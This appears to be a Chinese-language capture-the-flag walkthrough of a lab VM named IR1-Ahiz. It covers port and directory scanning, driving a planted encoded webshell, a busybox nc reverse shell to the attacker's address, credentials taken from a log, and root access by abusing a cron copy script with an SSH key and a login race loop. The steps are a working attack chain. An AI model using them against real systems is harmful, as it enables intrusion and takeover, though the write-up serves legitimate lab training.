





# IR1-Ahiz

# 信息收集

```
nmap -p-  192.168.100.24
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-10 01:18 EDT
Nmap scan report for 192.168.100.24
Host is up (0.00088s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:9F:07:22 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 14.08 seconds

```

```
sudo dirsearch -u http://192.168.100.24   
[sudo] password for kali: 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/reports/http_192.168.100.24/_26-07-10_01-18-41.txt

Target: http://192.168.100.24/

[01:18:41] Starting: 
[01:18:42] 403 -  317B  - /.ht_wsr.txt                                    
[01:18:42] 403 -  317B  - /.htaccess.bak1                                 
[01:18:42] 403 -  317B  - /.htaccess.save                                 
[01:18:42] 403 -  317B  - /.htaccess.orig
[01:18:42] 403 -  317B  - /.htaccess.sample
[01:18:42] 403 -  317B  - /.htaccessBAK
[01:18:42] 403 -  317B  - /.htaccessOLD2
[01:18:42] 403 -  317B  - /.htaccess_extra
[01:18:42] 403 -  317B  - /.htaccess_orig                                 
[01:18:42] 403 -  317B  - /.htaccess_sc                                   
[01:18:42] 403 -  317B  - /.html                                          
[01:18:42] 403 -  317B  - /.htm
[01:18:42] 403 -  317B  - /.htpasswd_test                                 
[01:18:42] 403 -  317B  - /.htpasswds                                     
[01:18:42] 403 -  317B  - /.httr-oauth                                    
[01:18:44] 403 -  317B  - /.htaccessOLD                                   
[01:18:48] 200 -  820B  - /cgi-bin/printenv                               
[01:18:48] 200 -    1KB - /cgi-bin/test-cgi
[01:18:56] 403 -  317B  - /server-status                                  
[01:18:56] 403 -  317B  - /server-status/
[01:18:58] 301 -  355B  - /upload  ->  http://192.168.100.24/upload/      
[01:18:58] 200 -  975B  - /upload.php                                     
[01:18:58] 200 -  368B  - /upload/

```

```
/ — 伪装成 IIS Windows 的 Apache 默认页面（HTML 注释中含 SEO 垃圾链接）
/upload/ — 目录遍历开启，发现 ZWCQA.php
/upload.php — 虚假文件上传页面（不实际保存文件）
/cgi-bin/printenv、/cgi-bin/test-cgi — CGI 脚本源码泄露（未执行）
/server-status — 403 Forbidden
```

80有个文件上传

还可以看到文件夹里的文件 打开发现看不到内容

发现文件名很熟悉



```
https://www.52pojie.cn/thread-2090008-1-1.html
```

```
' ASP 版 ZWCQA 解密函数
function ZWCQA(text)
    const LPMZ="gw"
    dim YCRD : YCRD=text
    dim QSVC
    dim TSZV : TSZV=strreverse(YCRD)          ' ① 反转字符串
    for i=1 to len(TSZV) step 4
        QSVC=QSVC & ChrW(cint("&H" & mid(TSZV,i,4)))  ' ② 每4位hex→字符
    next
    ZWCQA=mid(QSVC,len(LPMZ)+1,len(YCRD)-len(LPMZ))   ' ③ 去掉前缀"gw"
end function

' 已知加密样本
eXecUTe(ZWCQA("92002200F60027005600A7002200820047003700560057001700560027000200C60016006700560077007600"))
```

```
原始命令: system('id');
    ↓ ① 加前缀 "gw"
gwsystem('id');
    ↓ ② 每字符转4位十六进制 Unicode
0067007700730079007300740065006D002800270069006400270029003B
    ↓ ③ 反转
B300920072004600960072008200D6005600470037009700370077007600
```

尝试文章里的key`zero`



```
python zwcqa_brute.py --mode encode --cmd "system('ls /home');"
命令: system('ls /home');
编码: B300920072005600D600F6008600F20002003700C60072008200D6005600470037009700370077007600
验证: system('ls /home');
```

‍



```
命令: system('cat /home/IR1/user.txt');
编码: B30092007200470087004700E2002700560037005700F200130025009400F2005600D600F6008600F200020047001600360072008200D6005600470037009700370077007600
验证: system('cat /home/IR1/user.txt');
```



```
flag{user-1bf96dc0587890afdba4ee2ab289c240}
```

太难受了 反弹shell

```
命令: system('busybox nc 192.168.100.48 6666 -e sh');
编码: B300920072008600370002005600D20002006300630063006300020083004300E200030003001300E200830063001300E20023009300130002003600E60002008700F6002600970037005700260072008200D6005600470037009700370077007600
验证: system('busybox nc 192.168.100.48 6666 -e sh');
```

# 关键信息泄露 - scan.log

在 `/var/log/scan.log` 发现攻击者的扫描日志：

```
#!/bin/bash
# scanner v3.7 - auto pentest suite
# target: 192.168.1.100
# started: 2025-03-11 02:14:33

[02:14] Scanning ports...
[02:14] 80/tcp   open  http    IIS/6.0
[02:14] 21/tcp   open  ftp     vsftpd 2.3.4
[02:14] 3306/tcp open  mysql
[02:14] 22/tcp   open  ssh

[02:15] Trying default creds on ftp...
[02:15] ftp: anonymous/anonymous FAILED
[02:15] ftp: admin/admin FAILED

[02:16] Bruteforce ftp with rockyou_top500...
[02:33] ftp: IR1:hunter123 SUCCESS
[02:33] Logged in ftp as IR1:hunter123
[02:34] Downloaded /home/IR1/site_backup.zip
[02:34] Extracting site_backup.zip...
[02:34] Found db_config.bak -> mysql root:toor@localhost/webdb
[02:35] Dumping mysql webdb...
[02:35] users table: admin/5f4dcc3b5aa765d61d8327deb882cf99
[02:35] users table: IR1/hunter123

[02:36] Trying ssh with harvested creds...
[02:36] ssh: IR1:hunter123 SUCCESS
[02:36] uid=1001(IR1) gid=1001(IR1) groups=1001(IR1)
[02:36] sudo -l: (root) NOPASSWD: /usr/bin/find

[02:37] Injecting SEO spam into iisstart.html...
[02:37] Planting ZWCQA backdoor via IIS parse vuln...
[02:38] cp iisstart.png iisstart.png.bak
[02:38] Generated ZWCQA payload for iisstart.png
[02:38] Backdoor: ZWCQA.php | key: zero
[02:39] Cleaning traces...
[02:40] rm -rf /tmp/.scan_tmp
[02:40] Done.

```

发现IR1的密码

```
IR1/hunter123
```

# 发现提权线索

```
cat /opt/safeguard.sh


SRC=/home/IR1
DST=/root
KEEP="/root/root.txt /root/pass.txt"

cd "$SRC" && cp -r . "$DST"/ 2>/dev/null

sleep 15

for item in "$DST"/* "$DST"/.*; do
    if [[ "$item" =~ /\.{1,2}$ ]]; then
        continue
    fi
    skip=0
    for keep in $KEEP; do
        [ "$item" = "$keep" ] && skip=1 && break
    done
    [ $skip -eq 0 ] && rm -rf "$item" 2>/dev/null
    done

```

|执行者|**root**（通过 cron 定时任务）|
| ----------| -----------------------------|
|触发条件|定时执行（每小时约 :15 分）|
|数据流|`/home/IR1/*`​ → `cp`​ → `/root/*`|
|窗口期|文件在 `/root/`​ 存活 **15 秒**|
|保留文件|`/root/root.txt`​、`/root/pass.txt`（不会被删除）|

# 思路

```
① 生成 SSH 密钥对（攻击机）
       ↓
② 将公钥写入 /home/IR1/.ssh/authorized_keys（通过 su IR1）
       ↓
③ 等待 cron 触发 safeguard.sh
       ↓
④ safeguard.sh 将 .ssh 目录复制到 /root/.ssh/
       ↓
⑤ 在 15 秒窗口内使用私钥 SSH 登录 root


```

‍

```
PUBKEY="ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBK47EAyAcDqxMYzZBPCGRGYrfsvIRWPfDb8cAhu6tJo kali@kali"


echo hunter123 | su IR1 -c "mkdir -p /home/IR1/.ssh && echo '${PUBKEY}' > /home/IR1/.ssh/authorized_keys && chmod 700 /home/IR1/.ssh && chmod 600 /home/IR1/.ssh/authorized_keys"

```

‍

‍

```
# 循环等待
for i in $(seq 1 30); do
  ssh -o StrictHostKeyChecking=no -o ConnectTimeout=2 \
      -o BatchMode=yes -i /home/kali/.ssh/id_ed25519 \
      root@192.168.100.24 "cat /root/root.txt" 2>&1 | grep -q "flag{" \
      && ssh -o StrictHostKeyChecking=no -i /home/kali/.ssh/id_ed25519 root@192.168.100.24 \
      && break
  echo "[$i] 等待..."
  sleep 10
done
```



```
flag{root-efd63089024ee12071ca647d1fa569bc}

```
